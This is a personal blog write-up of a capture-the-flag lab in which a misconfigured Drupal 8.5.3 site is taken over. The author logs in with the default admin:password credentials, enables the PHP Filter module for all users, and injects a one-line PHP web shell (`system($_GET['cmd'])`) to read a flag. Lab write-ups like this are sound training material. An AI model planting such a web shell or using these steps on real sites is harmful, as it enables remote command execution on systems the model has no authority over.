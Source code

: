 # bkornpob.github.io
bkornpob website

--------------------------

#drupal #misconfigured #shell-injection
#secplayground

Exercise: https://play.secplayground.com/lab/65

# Brief

Default admin cred
```
Drupal version 8.5.3
user: admin
password: password
```

# Mission

Read flag.txt

# Solved

pwn: login with default admin cred
escalate: inject php shell
payload: `<?php system($_GET["cmd"]); ?>`

![alt text1](Pasted-image-20250905002202.png)

![alt text2](0 unsorted/Pasted image 20250905002202.png)

![SELENE-username-enumeration-response-timing.png](SELENE-username-enumeration-response-timing.png)

SELENE-username-enumeration-response-timing.png

1. access the server and login with admin:password
2. research about Drupal interface and how to inject php shell
   summary: simply create a page, make sure php script is enabled
3. Content > Add content > Basic page > 
   'Title':'abc', 
   'Body':payload,
   'Text format':***Notice that there is no php option*** , leave default as 'Basic HTML',
   'Published':1,
   SAVE
4. access the abc page and verify that php script is disabled
5. enable php script
	1. install PHP module
		   Extend > Install new module > modules
		   this takes to https://www.drupal.org/project/project_module
		   find ![[Pasted image 20250905002202.png]] ***it was really hard to find; filter and sort saved the day?***
		   https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
			   The website encountered an unexpected error. Please try again later.
			try different release ![[Pasted image 20250905003434.png]]
		   https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
			   Installation was completed successfully.
	2. enable PHP module
	   idea of this step is to grant privy for non-admin user to run php script
		   Extend > find PHP Filter > Check TRUE > Install
		   Extend > find PHP Filter > Click (at the description) to expand > Permission > find 'Use the PHP Code text format' > Check TRUE all users > Save permissions
6.  Create Basic page (step 3) now has
	   'Text format':'PHP code'
	inject php shell
7. Access either using preview
	   http://34.124.158.245/node/preview/75d37909-67a4-428c-91c6-2948dc73192f/full?cmd=whoami
	or directly access the published page
		http://34.124.158.245/node/1?cmd=whoami
8. Read flag.txt
